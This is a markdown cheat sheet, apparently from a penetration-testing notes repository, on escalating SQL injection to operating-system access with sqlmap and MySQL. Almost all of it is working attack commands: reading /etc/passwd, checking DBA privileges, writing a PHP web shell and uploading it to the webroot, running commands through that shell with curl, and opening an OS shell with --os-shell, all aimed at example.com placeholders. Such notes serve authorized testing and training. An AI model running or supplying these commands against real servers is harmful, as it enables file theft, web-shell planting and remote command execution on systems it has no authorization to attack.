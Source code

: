 # OS Exploitation
***

### File Read/Write
#### In MySQL, to read local files, the DB user must have the privilege to **LOAD DATA** and **INSERT**, to be able to exfiltrate data from a file to a table and then  reading that table.
##### Command example:
```SQL
LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;
```

### Checking for DBA Privileges
```bash
$  sqlmap -u "http://www.example.com/notthisagain.php?id=1337" --is-dba
```

### Reading Local Files
```bash
$ sqlmap -u "http://www.example.com/?id=1337" --file-read "/etc/passwd"
```

### Writing Local Files
#### In MySQL the `-secure-file-priv` configuration must be manually disabled to allow writing data into local files using the **INTO OUTFILE**

#### Write a Web Shell to a file
```bash
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

#### Write that file to the default server webroot
```bash
$ sqlmap -u "http://www.example.com/?id=1337" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```
#### Then we can execute any command by doing the following:
```bash
$ curl http://www.example.com/shell.php?cmd=ls+-la
```

### OS Command Execution
#### Getting OS shell through SQLMap
```bash
$ sqlmap -u "http://www.example.com/?id=1337" --os-shell --technique=E --batch
```

